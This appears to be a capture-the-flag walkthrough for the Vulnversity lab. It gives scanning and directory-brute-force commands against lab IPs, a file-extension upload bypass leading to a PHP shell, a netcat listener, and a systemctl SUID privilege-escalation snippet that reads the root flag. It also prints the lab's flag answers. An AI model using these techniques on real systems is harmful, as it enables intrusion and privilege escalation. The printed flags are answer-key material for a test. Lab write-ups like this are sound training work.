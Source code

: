 # First
nmap -sV -sC -oN vulnerversity.namp 10.10.176.147
## Ports Open
6
### version of the squid proxy 
3.5.12
### operating system 
Ubuntu

# Second
gobuster dir -u http://10.10.87.135:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

### directory that has an upload form page?
/internal

# Third
start burp suite and enable it in foxy proxy. Create a file with different php extensions for the Sniper attack
- every extension is yielding Status as 200 but the length of .phtml extension was different from the rest.
- try to upload a shell.phtml
- We start a netcat listener:
   nc -lvp 4444
 ###  name of the user who manages the webserver
 bill
 ### user.txt
 8bd7992fbe8a6ad22a63361004cfcedb
 
 # privilage escilation
 - check the system for SUID files
 command ---> find / -perm -u=s -type f 2>/dev/null
We see that /bin/systemctl is a SUID binary. We could use this to gain privelage access. We have a look at gtfobins and search for systemctl
We create a temporary service and then use that to view root.txt file.
```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
# Root Flag
a58ff8579f0a9270368d33a9966c7fd5


